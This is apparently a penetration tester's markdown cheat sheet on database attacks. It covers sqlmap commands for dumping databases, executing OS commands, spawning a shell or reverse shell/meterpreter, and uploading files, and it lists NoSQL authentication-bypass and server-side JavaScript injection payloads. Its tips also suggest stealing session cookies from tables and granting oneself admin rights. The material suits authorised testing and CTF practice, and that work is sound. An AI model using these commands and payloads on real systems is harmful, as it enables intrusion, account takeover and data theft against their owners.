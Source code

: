 # Basic Reconnaissance

# Tips

- If a database has a table of session one can try to steal cookies or other credentials from the table to authenticate as another user.
- If one is in a database with write access and there are roles assigned to users, give the current user admin rights.

# DBMS Enumeration
- [[3306 - MySQL]]
- [[1433 - MSSQL]]
- [[1521, 1522–1529 - Oracle and ODAT]]
- [[27017, 27018 - MongoDB]]
- [[SQLite Enumeration]]
  

# SQL Injection Cheat Sheets

- [https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- [https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)



# Universal Structures

```
information_schema Metadata and all the databases and tables
information_schema.schemata Databases
information_schema.tables Tables
information_schema.columns Columns
```


# sqlmap

## GET
Discover vulnerabilities in databases as well as dump info

```sh
sqlmap -u <URL> --batch
```

## POST

```sh
# With request file
# Add request into a log file (either from Burp or Chrome)
sqlmap -r <request_file> --batch

sqlmap -u <URL> --data "username=*&password=*"
```


## Web sockets

```sh
sqlmap -u ws://<ip><port> --data <data>
```

## Commands

**To get data from any query use the `--dump` option**

```sh
# Get all databases
sqlmap -u <URL> --dbs

# Set DBMS
sqlmap -u <URL> --dbms="dbms"

# Database
sqlmap -u <URL> -D <database>

# Tables
sqlmap -u <URL> --tables -D <database>

## Specify table
sqlmap -u <URL> -D <database> -T <table>

# Columns
sqlmap -u <URL> --columns -D <database> -T <table>
```

## Shell

To get upload web interface look for `file stager` otherwise look for `backdoor` in the output.

```sh
# Exec command
sqlmap -u <URL> --os-cmd <command>

# Simple Shell
sqlmap -u <URL> --os-shell

# Dropping a reverse-shell / meterpreter
sqlmap -u <URL> --os-pwn
```

## File Upload

```sh
sqlmap -u <url> --data <data> --file-write <local_file> --file-dest <destination>
```

  

# NoSQL

## Authentication Bypass

```
DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

## SSJI

```
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```


## NoSQLMap

Since the tool is using a menu based system, I'll just link the GitHub.
[Documentation and Release](https://github.com/codingo/NoSQLMap)


# References​
- [https://0xdf.gitlab.io/2018/06/23/htb-falafel.html](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell)
- [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
- [https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)

